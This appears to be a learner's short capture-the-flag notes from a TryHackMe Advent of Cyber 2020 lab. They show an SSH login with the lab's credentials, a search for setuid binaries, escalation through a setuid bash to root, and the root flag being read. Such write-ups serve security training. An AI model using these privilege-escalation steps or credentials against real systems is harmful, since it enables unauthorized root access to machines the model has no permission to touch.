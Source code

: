 # Advent of cyber 2020

# Target IP : 10.10.111.7

# My IP : 10.17.6.109

==================

ssh cmnatic@10.10.111.7
aoc2020

find / -type f -perm -4000 2> /dev/null

bash is setuid

bash-4.4# cat /root/flag.txt 
thm{2fb10afe933296592}